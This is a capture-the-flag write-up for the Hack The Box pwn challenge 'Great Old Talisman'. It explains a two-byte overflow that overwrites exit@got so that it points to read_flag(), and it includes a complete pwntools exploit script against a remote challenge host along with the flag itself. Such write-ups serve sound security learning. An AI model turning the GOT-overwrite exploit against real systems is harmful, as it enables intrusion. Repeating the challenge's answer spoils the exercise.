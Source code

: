 # Great Old Talisman
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fedf870-97de-41d5-ae43-5f1ea48589c0)


## Lessons Learned:
- Calculating offset for exit@got entry.
- Utilizing 2 bytes overflow to overwrite exit@got.

## DESCRIPTION:
Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, 
a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f6b29c13-7977-4f4e-b6a7-837df5a4ba68)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/92266156-8059-4a1a-ae58-7e289c7beb36)


2. After decompiled the binary and reviewing the code, found the vuln at the main() function where there's a read() function call to accepts 2 bytes but users can actually fill up to `input * 8 bytes`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fbdad50-cb60-4274-9856-ef9357fd3aa4)


3. Knowing this we can overwrite pointer of exit@got and points it to what ever we want by modifying the last 2 bytes.
4. Checking for useful functions, found a function that seems to be our goal. It's `read_flag()`.
5. This function print the content flag to us.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9ab55fc6-b267-42e9-b45e-afcd574b919e)


6. Great! The exploit flow is:

```
- Calculate the offset for exit@got entry.
- Overwrite exit@got pointer to read_flag().
```

7. To calculate the exit@got entry, we can use GDB.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/032819d5-70a7-423c-b2f0-3f1c0fc8ba85)


8. Awesome! Based from the result above, we can identify that we need to pass `-4` (because offset calculation of talis to exit@got, remember the libc and pie calculations logic) as the input.
9. Lastly, since we want to overwrite the last 2 bytes of exit@got with last 2 bytes of `read_flag()`, we can use AND operations to address of `read_flag()` with 0XFFFF.
10. After executes the AND operations, packed the bytes result into `p16() bytes wrapper` (half of 64 bit).
11. Here's the full script:

> SCRIPT

```py
from pwn import *
import os
os.system('clear')

exe = './great_old_talisman'
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.62.195',49760)

sh.sendlineafter(b'>', b'-4')
# read_flag = p16(elf.sym['read_flag'] & 0xFFFF)
# print(read_flag)
sh.sendlineafter(b':', p16(elf.sym['read_flag'] & 0xFFFF))
# gdb.attach(sh)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cde9389-995a-4e14-9028-010c34d8cdbe)


## FLAG

```
HTB{t4l15m4n_G0T_ur_b4ck}
```
